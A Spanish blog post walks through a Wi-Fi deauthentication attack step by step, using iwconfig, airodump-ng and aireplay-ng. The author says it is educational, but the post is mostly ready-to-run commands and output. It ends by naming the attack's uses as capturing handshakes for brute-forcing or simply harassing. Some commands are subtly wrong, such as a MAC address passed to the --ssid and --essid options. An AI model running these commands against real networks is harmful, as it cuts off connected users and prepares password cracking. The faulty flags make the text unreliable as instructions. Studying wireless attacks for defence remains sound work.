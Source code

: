 ```yaml
---
layout: post
author: S3K0NDZ
title: Ataque Deauth
image: https://e7.pngegg.com/pngimages/174/549/png-clipart-computer-icons-hand-tool-hand-tool-angle-white.png
description: Como realizar un ataque de desautenticación.
tipo: tecnicas
---
```

Hoy voy a describir el paso a paso de como realizar un deauther atack, estas pruebas están realizadas en un entorno controlado y se enseña con fines educativos. 

## Materiales

* Un adaptador de red wifi con posibilidad de actuar en modo monitor

## Herramientas

* iwconfig 
* airodump-ng 
* aireplay-ng

## Procedimiento

El primer paso es utilizar el comando ifconfig para ver que tenemos nuestro adaptador de red conectado correctamente, he sustituido por asteriscos cierta información sensible, esto no tiene mayor relevancia para la explicación.

```
wlxd037452a2463: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 2312
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 **********  prefixlen 64  scopeid 0x20<link>
        ether **********  txqueuelen 1000  (Ethernet)
        RX packets 10823  bytes 4687337 (4.4 MiB)
        RX errors 0  dropped 28  overruns 0  frame 0
        TX packets 2095  bytes 481408 (470.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Una vez hemos identificado nuestro adaptador procedemos a verificar en que modo está, para ello tenemos que usar el siguiente comando.

```
iwconfig (identificador de tu adaptador)
```

En mi caso: 
```
iwconfig wlxd037452a2463
```

Podemos ver como mi adaptador está en modo <b>managed</b>.
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:5.18 GHz  Access Point: 
          MI MAC  
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:****-****-****-****-****-****-****-****   
          Security mode:open
          Power Management:off
          Link Quality=81/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Para cambiarlo a modo <b>monitor</b> es de la siguiente manera. 

```
iwconfig (identificador de tu adaptador) mode monitor
```

En mi caso.
```
iwconfig wlxd037452a2463 mode monitor
```

Ahora si hacemos un iwcofig podemos ver como ya se encuentra en modo monitor
```
wlxd037452a2463  IEEE 802.11AC  ESSID:"MI SSID"
          Nickname:"<WIFI@REALTEK>"
          Mode:Monitor  Frequency:5.18 GHz  Access Point: 
          MI MAC
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=77/100  Signal level=-48 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

Vale una vez hecho esto vamos levantar el interfaz, para ello hacemos lo siguiente. 

```
ifconfig (identificador de tu adaptador) up 
```
En mi caso. 
```
ifconfig wlxd037452a2463 up 
```


Ahora vamos a usar la siguiente herramienta, que se llama <b>aerodump-ng
</b>
para ello vamos a escanear todas las AP y los clientes que están conectadas a las mismas. 
```
airodump-ng wlxd037452a2463
```
Vamos a ver que nos aparece lo siguiente.
```
CH  9 ][ Elapsed: 12 s ][ 2022-08-30 02:11 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

01:01:01:01:01:01   -76        0        2    0 100   -1   WPA              <length:  0>                                                                                     
01:01:01:01:01:01  -81         1        0    0  11 1733   WPA2 CCMP   PSK  **PRUEBA_REAL**                                                                                
01:01:01:01:01:01   -76        0        0    0  48 1733   WPA2 CCMP   PSK  **Prueba**                                                                                    
01:01:01:01:01:01   -82        1        1    0  44 1170   WPA2 CCMP   PSK  **Prueba**                                                                                  
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                                     
01:01:01:01:01:01   -76        1        0    0  44 1733   WPA2 CCMP   PSK  **Prueba**                                                                               
                                                               

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

01:01:01:01:01:01    01:01:01:01:01:01   -1     6e- 0      0        Prueba                                                                                                         
01:01:01:01:01:01    01:01:01:01:01:01   -53    0 - 1      0        2         Prueba                                                                                   
                                                                               
```

Por motivos de seguridad he censurado los ssid y las mac de las redes que aparecen. 

Ahora bien, tenemos todas las redes a las cuales podemos realizar un ataque, pero ¿a que cliente queremos desautenticar? y ¿como lo hacemos?

Bien para responder a estas dos preguntas, primero tenemos que aplicar un filtro para reconocer los potenciales clientes que nos interesan. 

```
airodump-ng 
--ssid 01:01:01:01:01:01 (BSSID de las estación que queremos filtrar, la tabla superior)           
--channel 11 (Ponemos el canal en el cual opera dicha estación)
 wlxd037452a2463(Nuestro adaptador de red)
```

```
airodump-ng --essid 01:01:01:01:01:01 --channel 11 wlxd037452a2463
```
Ahora veremos como en la parte inferior detectamos todos los dipositivos conectados a dicha red.

```
 CH 11 ][ Elapsed: 36 s ][ 2022-08-30 02:28 ][ display sta only

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   01:01:01:01:01:01  -83    0 - 6      0        2                     

```                                                                                     
Para desautenticar simplemente tendremos que usar la herramienta llamada aireplay-ng
              
``` 
aireplay-ng 

--deauth (Tipo de ataque)

1000 (Número de paquetes que queremos enviar)

-e Prueba (SSID de la estación víctima)

-c 01:01:01:01:01:01 (MAC víctima)

wlxd037452a2463 (Nuestro adaptador de red en modo monitor)
              
``` 

``` 
aireplay-ng --deauth 1000 -e Prueba -c 01:01:01:01:01:01 wlxd037452a2463

``` 

Una vez le damos a enter, se envia le número de paquetes de deauth que hemos establecido y mientras este proceso esté ejecutándose, el equipo víctima no se podrá conectar a la red, esta técnica sirve entre otras cosas por ejemplo para capturar el handshake para posteriormente romperlo con fuerza bruta o simplemente para molestar. 

Gracias por leer! 


